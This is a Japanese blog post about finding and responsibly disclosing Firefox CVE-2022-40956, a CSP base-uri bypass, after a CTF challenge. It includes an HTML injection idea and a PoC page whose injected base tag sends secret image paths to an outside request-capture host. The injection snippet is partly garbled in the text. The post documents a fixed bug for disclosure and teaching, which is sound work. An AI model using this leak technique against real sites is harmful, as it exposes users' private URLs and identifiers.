



# CTFをやっていたらFirefoxの脆弱性を見つけてCVEを貰った話

## はじめに
はじめまして、セキュリティエンジニア？のSatoki ([@satoki00](https://twitter.com/satoki00))です。今回は趣味でCTFをやっていたらFirefoxの(しょぼい)脆弱性を見つけてCVEを貰った話を置いておきます。ちなみに、技術的にはあまり役に立たない記事です。実は年末に書こうと思っていたのですが、修論の影響でかなり遅れました。

もし、他にFirefoxのバグを見つけた方は **[ここ](https://www.mozilla.org/en-US/security/bug-bounty/)** から報告してください。

## CTFをやる
時は遡り、2022/05/13に開催された[TJCTF 2022](https://ctftime.org/event/1599/)に参加し**jokster**なるWebジャンルの問題を解いていました。詳しくは[WriteUp](https://github.com/satoki/ctf_writeups/tree/master/TJCTF_2022/jokster)に書いてありますのでここでは簡単に触れます。

この問題ではジョーク投稿サイトとAdmin Botが動いており、Adminユーザのプロフィールページにフラグがあります。プロフィールページはBot以外でもアクセス可能なものの、URLはユーザごとにランダムに生成されるため予測不可能です。サイトの実装としては、全ページからaタグにより自身のプロフィールページが相対パスでリンクされています。よくある右上のプロフィールリンクです。BotはパスワードでAdminユーザとしてログインし、我々が送信した同一オリジンのURLをクロールします。つまり、何とかしてAdminユーザのトップページのプロフィールリンク(aタグのhref)を取得する必要があります。この問題はCSPが厳しく設定されているため任意のJavaScriptの実行はできませんが、HTMLタグがインジェクションできるという設定です。つまりXSSでfetchする手法は使えません。

この問題、実はCSPが`style-src 'self' fonts.googleapis.com;`であり、さらにプロフィール画像のファイルアップロード機能の拡張子チェックが不十分なことで、同一オリジンにcssファイルを設置でき、CSSiでAdminユーザのプロフィールページのURLをリークできるものでした。

## 非想定解を考える
CTFの問題では、Adminユーザのトップページのaタグのhrefを取得することがゴールなのですが、ページのHTML内にシングルクォートとダブルクォートが混ざって利用されていました(運営のミス)。このため当初はbaseタグとimgタグを挿入し、baseタグに自身のサーバを指定、クォートの対応で属性値の判定範囲を壊して、aタグの中身をimgタグの読み込みリクエストに含めることでhrefをリークすることが可能なのではないかと考えました。

簡易的な例は以下になります。
```html
[HTMLタグ挿入可能場所]
<a href="/profile/secret">himitsu</a>   <!-- 欲しいパス -->
<a href='/xxxxx'>tekitou</a>            <!-- シングルクォートが利用されている箇所 -->
```
上記のようなコードがあるとして、HTMLタグ挿入可能場所に`<base href="https://MY_SERVER">himitsu</a>
<a href='/xxxxx'>tekitou</a>
```
すると`/%3Ca%20href=%22/profile/secret%22%3Ehimitsu%3C/a%3E%3Ca%20href=`のリクエストが`https://MY_SERVER`に届きます。こうしてhrefの`secret`が取得できます。

実際に問題ではタグを壊してリクエストが受け取れましたが、改行などによりリークしたい箇所まで影響がないためこの手法では解けませんでした。また、なぜかAdmin Botへ送信した場合はリクエスト自体が受け取れませんでした。残念。

## ブラウザの挙動差を見つける
ここでサイトの情報を整理していると、不審なことに気づきます。**CSPに`base-uri 'self';`が含まれていました。** 先ほど指定した`https://MY_SERVER`は`self`ではありません。CSPでブロックされているはずのbaseタグの指定場所へimgタグのリクエストが到達したのは興味深い振る舞いです。

ここで以下のようなPoCを作成して、`https://satoki00.htmlbin.net/poc.html`に設置してみます。ここではリクエスト受信用として、RequestBinを利用しSecretとして適当なuuidを設定しました。Secretが何なのかは[悪用シナリオを考案する](#悪用シナリオを考案する)で説明します。ひとまず適当なファイル名だと思ってください。
```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta http-equiv="Content-Security-Policy" content="base-uri 'self';">
</head>
<body>

<!-- RequestBin.com (https://requestbin.com/) -->
<base href="https://enxrik0wsjlor.x.pipedream.net/">

<!-- Secret uuid:b0190b16-41fb-9059-a680-9e5b47f24ce5 -->
<a href="/profile/b0190b16-41fb-9059-a680-9e5b47f24ce5.html">Profile Page</a><br>
<br>

</body>
</html>
```

CSPによりbaseタグがブロックされるためimgタグのリクエストは、`https://enxrik0wsjlor.x.pipedream.net/profile/img/b0190b16-41fb-9059-a680-9e5b47f24ce5.png`ではなく`https://satoki00.htmlbin.net/profile/img/b0190b16-41fb-9059-a680-9e5b47f24ce5.png`へとなるはずです。

Firefox 100.0の管理者ツールで通信を見てみましょう。
  
`https://enxrik0wsjlor.x.pipedream.net`からなぜか200が返ってきており、pngが二度取得されています。リクエストの受け側はどうでしょうか？
  
imgのパスがリクエストに含まれています。Chromeで試したところ再現しません(CTFでAdmin Botへ送信した場合はリクエスト自体が受け取れ無かったのはこのため)。各ブラウザの挙動差はよくありますが、何かバグのような香りがします。

## 悪用シナリオを考案する
脆弱性の報告にはセキュリティリスクを伝えることが不可欠です。そのため、不審な挙動から悪用シナリオを考案して伝える手法をよく取ります。

今回のCSPの挙動を悪用できるシナリオはあるでしょうか？まず前提条件として反射型でも蓄積型でも良いので、HTMLタグがインジェクションできることですね。ただし、HTMLタグがインジェクションできれば基本的なXSSは刺さりそうで、こちらの方が被害が大きいのでXSSが発生しないシナリオが必要でしょう。また取得されるのがimgタグの相対パスのみという点にも注意が必要です。実際にありそうなサイト設計をまとめると以下です。

- HTMLタグがインジェクションできる
    - 危険でないタグを意図的に許可している
    - サニタイズが不十分である
- XSSが発生しない
    - ブラックリスト形式で危険なタグが禁止されている
    - CSPでscriptなどの実行が制限されている
- imgタグの相対パスが非公開である
    - URLの乱雑さで非公開であることを担保している

これらを総合すると、URLの乱雑さで非公開を担保するサービスの一部にHTMLタグのインジェクション(のみ)が可能である場合に、そのページにある公開を意図していないimgタグのパスが、base-uriが適切に設定されているにもかかわらず外部に送信されるという悪用シナリオになりそうです。考えられる具体的な被害としては、記事投稿サービスなどにHTMLタグのインジェクションが可能であり、ユーザが悪意のあるタグの被害を受け、CSPでうまくXSSやCSSiは防げたものの、サムネイルなどの公開すべきでない画像URLが取得されてしてしまうといったものです。前節の[ブラウザの挙動差を見つける](#ブラウザの挙動差を見つける)でSecretにuuidを設定しましたが、このPoCではユーザの非公開IDが`b0190b16-41fb-9059-a680-9e5b47f24ce5`でアイコンのファイル名に使いまわされている想定です。この場合、baseタグをインジェクションされたと想定すると`b0190b16-41fb-9059-a680-9e5b47f24ce5`が画像ファイル経由で流出し、プロフィールURLも判明してしまいます。結果として、1リクエストで機密情報を取得できるXS-Leaksのようなものとみなせます。

## Mozillaに報告する
さて悪用シナリオを用意したらMozillaに報告しましょう。報告は[Bugzilla](https://bugzilla.mozilla.org)を通して行います。「imgタグのCSP(base-uri)バイパスによるXS-Leaks」のようなタイトルを付けて内容と作成したPoC(poc.html)を英語で送信します。

```
baseタグの読み取りを"self"に制限したContent-Security-Policyを検証しました。
HTMLタグを挿入することで、この制限が有効かどうかを確認したところ以下のような挙動が発生します。

[実際の挙動]
CSPはbaseタグのインジェクションの防止に成功しました。
しかし、imgタグからbaseタグで指定したURLにリクエストが送信されていることが確認できます。
添付のpoc.htmlから機密情報(uuid)の流出を確認できます。
XS-Leaksによってユーザのimgタグの機密パスを取得できたのはFirefoxだけでした。
プロフィールURLが非公開であり、トップページなどでタグインジェクションが発生する攻撃シナリオを想定しています。

[期待される結果]
CSPによってブロックされたbaseタグは無効であり、imgタグは元のURLのみにリクエストを発行する必要があります。
```
Bugzillaを介して開発者たちと原因などを調査した結果、どうやらCSPの投機的な読み込み時に不適切なリクエストが発生しているようでした。詳細なdiffは[ここ](https://hg.mozilla.org/releases/mozilla-esr102/rev/7b43b4ab4275)です。何度かメッセージをやり取りし、修正が完了すると、以下のようなadvisory.txtが送られてきました。
```
Content-Security-Policy base-uri bypass
Satoki Tsuji

When injecting an HTML base elements, some requests would ignore the CSP's base-uri settings and accept the injected element's base instead.
```
少し待っていると以下のように実際にアドバイザリが[公開](https://www.mozilla.org/en-US/security/advisories/mfsa2022-40/#CVE-2022-40956)され、**CVE-2022-40956**が割り当てられることも決まりました。この脆弱性はFirefox 105、Firefox ESR 102.3、Thunderbird 102.3までに影響したようです。修正やったね。
  

## CTFでやる
CTFからひらめきを貰ったからには何か恩返しをしなくてはなりません。我々が母なる大地から生まれ帰っていくように、脆弱性もCTFへ帰っていくべきです。ということでCVE-2022-40956を用いた問題を **[leaks4b](https://github.com/satoki/tsukuctf_2022_satoki_writeups/tree/master/web/leaks4b)** という題名でTsukuCTF 2022に出題しました。本記事が出ているころには開催が終了していますが、CVE-2022-40956をオラクルにした問題です。3 solvesという難易度ですが、暇な方はぜひチャレンジしてみてください。


## おわりに
今回はFirefoxの脆弱性をCTFから見つけ出し、報告し、CTFの問題へと戻す一連の流れを書きました。CVEと聞くと天才ハッカーが取得しているイメージがあります(実際そうでもある)が、私のような凡人でも小さな気づきと思考によって取得できるものであるということを、少しの自慢を交えて書いたつもりです。「くだらないCVEを取るな」と怒られたこともありますが、ちょっぴり世界が安全になると思ってやっています。これを読んだ皆さんもバグハンティングやCVE取得に興味を持っていただけるとうれしいです。

## タイムライン
| 日付 | 状態 |
| :-- | :-- |
| 2022/05/13 | TJCTF 2022に参加 |
| 2022/05/16 | base-uriの挙動を検証 |
| 2022/05/18 | Mozillaに報告 |
| 2022/07/22 | 脆弱性であると認定 |
| 2022/09/02 | 修正完了 |
| 2022/09/14 | アドバイザリ草案提示 |
| 2022/09/28 | CVE割り当て |
| 2022/09/28 | アドバイザリ公開 |
| 2022/10/22 | leaks4bを出題 |
| 2022/01/07 | 本記事公開 |
